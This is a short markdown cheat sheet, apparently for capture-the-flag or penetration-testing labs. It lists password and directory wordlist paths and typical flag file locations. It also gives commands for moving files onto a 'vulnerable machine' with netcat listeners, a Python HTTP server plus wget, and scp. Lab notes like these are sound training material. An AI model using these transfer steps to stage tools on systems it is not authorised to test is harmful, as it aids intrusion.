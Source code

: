 # Important paths

## Wordlists

* `Password Bruteforcing with rockyou.txt`: `/usr/share/wordlists/rockyou.txt`
* `Directory Bruteforcing`: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

## Flag paths

Generally, the user and root flags will be found on this paths:
* `user.txt`: `/home/<user-name>/user.txt`
* `root.txt`: `/root/root.txt`

## Ways to send file from Local to Vulnerable machine

* Netcat (nc) or Ncat
  - Using the `nc` or `ncat` tool to transfer files over a network connection.
  - On the receiving (vulnerable) machine, start a listener: ``` nc -nlvp <port> > received_file ```
  - On the local machine, send the file: ``` nc <target IP> <port> <file_to_send> ```

* Python HTTP Server
  - Using Python's built-in HTTP server module to host the file.
  - On the local machine, navigate to the directory containing the file: ``` cd /path/to/file/ ```
  - Start the HTTP server: ``` python -m http.server <port> ```
  - On the vulnerable machine, use `wget` or `curl` to download the file: ``` wget <your_local_ip>:<port>/file_to_download ```

* SCP (Secure Copy)
  - Using the `scp` command to securely transfer files over SSH.
  - On the local machine, use `scp` to copy the file to the vulnerable machine: ``` scp /path/to/file user@<target IP>:/path/on/vulnerable/machine ```
